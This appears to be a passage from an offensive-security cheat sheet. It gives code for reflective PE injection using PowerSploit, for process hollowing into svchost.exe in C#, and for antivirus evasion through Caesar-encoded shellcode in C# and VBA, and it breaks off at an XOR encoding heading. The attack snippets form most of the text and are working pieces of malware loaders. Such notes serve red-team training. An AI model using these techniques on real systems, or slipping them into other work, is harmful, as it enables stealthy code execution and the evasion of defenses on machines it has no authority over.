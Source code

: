 ##### Using Invoke-ReflectivePEInjection.ps1

[Source](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)

```
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

#### Process Hollowing

Create suspended process to inject into.

[Full Source](../src/csharp/Hollow.cs)

```
STARTUPINFO si = new STARTUPINFO();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);

PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
uint tmp = 0;
IntPtr hProcess = pi.hProcess;
ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);
```

### AV Evasion

#### Caesar Encrypted Shellcode

Writing a custom shellcode runner that utilizes Caesar encoded shellcode.

##### C#

[Full Source](../src/csharp/LikesEncoder.cs)

```
byte[] encoded = new byte[buf.Length];

for (int i = 0; i < buf.Length; i++)
{
    encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
}
```

#### VBA

```
For i = 0 To UBound(buf)
  buf(i) = buf(i) - 2
Next i
```

#### XOR Encrypted Shellcode

